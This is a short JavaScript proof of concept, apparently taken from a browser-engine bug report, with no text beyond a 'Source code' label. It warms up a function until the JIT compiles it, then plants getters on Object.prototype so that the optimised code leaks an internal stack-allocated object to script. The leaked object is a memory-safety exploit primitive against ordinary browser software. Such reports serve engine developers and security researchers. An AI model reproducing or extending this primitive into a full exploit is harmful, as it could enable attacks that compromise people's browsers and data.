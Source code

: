 
function opt() {
    let o = {};  
    o.x;  
}

function main() {
    for (let i = 0; i < 10000; i++) {
        opt();
    }

    let leaked_stack_object = null;
    let object_prototype = ({}).__proto__;
    object_prototype.__defineGetter__('x', Error.prototype.toString);
    object_prototype.__defineGetter__('message', function () {
        delete object_prototype.message;

        leaked_stack_object = this;
    });

    object_prototype.name = Array.prototype;  

    opt();

    alert(leaked_stack_object);
}

main();

